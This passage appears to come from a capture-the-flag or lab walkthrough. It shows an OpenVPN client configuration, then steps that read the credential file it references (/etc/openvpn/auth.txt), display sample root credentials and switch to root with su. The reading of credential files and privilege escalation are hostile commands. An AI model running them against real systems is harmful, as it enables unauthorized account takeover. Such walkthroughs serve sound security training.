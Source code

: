 ```bash
client
dev tun
proto udp
remote 10.10.10.10 1194
resolv-retry infinite
nobind
persist-key
persist-tun
ca ca.crt
tls-client
remote-cert-tls server
auth-user-pass /etc/openvpn/auth.txt
comp-lzo
verb 1
reneg-sec 0
```

**Explanation:**  
The file contains configuration details for connecting to a VPN. Notably, it includes the line `auth-user-pass /etc/openvpn/auth.txt`, which indicates that the user's credentials are stored in the `/etc/openvpn/auth.txt` file.

### Step 4: Extracting Credentials from the Referenced File

Check the contents of the `/etc/openvpn/auth.txt` file to extract the root user's credentials:

```bash
cat /etc/openvpn/auth.txt
```

**Sample Output:**

```bash
root
password123
```

**Explanation:**  
The file contains the username `root` and the password `password123`, which can now be used to switch to the root user.

### Step 5: Gaining Root Access

Use the extracted credentials to switch to the root user:

```bash
su root
```

**Explanation:**  
The `su` command allows you to switch to the root user using the credentials found in the `auth.txt` file.

### Cleanup
